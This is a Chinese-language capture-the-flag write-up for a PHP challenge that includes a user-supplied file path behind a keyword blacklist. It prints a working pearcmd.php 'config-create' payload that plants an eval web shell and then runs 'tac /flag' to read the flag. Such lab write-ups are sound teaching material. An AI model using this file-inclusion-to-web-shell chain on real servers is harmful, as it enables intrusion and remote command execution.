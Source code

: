 ### Include 🍐

---

```php
<?php
    error_reporting(0);
    if(isset($_GET['file'])) {
        $file = $_GET['file'];
        if(preg_match('/flag|log|session|filter|input|data/i', $file)) {
            die('hacker!');
        }
        include($file.".php");
        # Something in phpinfo.php!
    }
    else {
        highlight_file(__FILE__);
    }
?>
```

提示需要查看一下phpinfo，直接传入参数  `?file=phpinfo`

![image-20240910215821991](https://gitee.com/bx33661/image/raw/master/path/image-20240910215821991.png)

看到这里其实我没有什么思路，看了wp之后发现可以使用`pear.php`这个思路，

*register_argc_argv* 这个还有题目名字就是最典型的提示

> pear全称PHP Extension and Application Repository，php扩展和应用仓库，在docker中默认安装，路径为/user/local/lib/php.
>
> 前提需要：`register_argc_argv` 是 `on`

```php
?+config-create+/&file=/usr/local/lib/php/pearcmd&/<?=@eval($_POST['cmd']);?>+shel.php
    
//由于$_SERVER['argv']变量会将URL的?后面的值都传入pear当作参数，所以此处file需要调换一下位置，并且在适当位置加上/和空格的url编码
```

- `?+config-create+/`

> pear工具里有一个命令叫:config-create,这个命令需要传入两个参数，其中第二个参数是写入的文件路径，第一个参数会被写入到这个文件中。

- `&file=/usr/local/lib/php/pearcmd&/<?=@eval($_POST['cmd']);?>`

第一个参数写入

- `shel.php`

第二个参数是写入路径

![image-20240910222612381](https://gitee.com/bx33661/image/raw/master/path/image-20240910222612381.png)

利用POST传参数

```php
cmd=system('tac /flag');
```

![image-20240910222457517](https://gitee.com/bx33661/image/raw/master/path/image-20240910222457517.png)

得到flag





### 参考文档

https://juejin.cn/post/7147638903191814180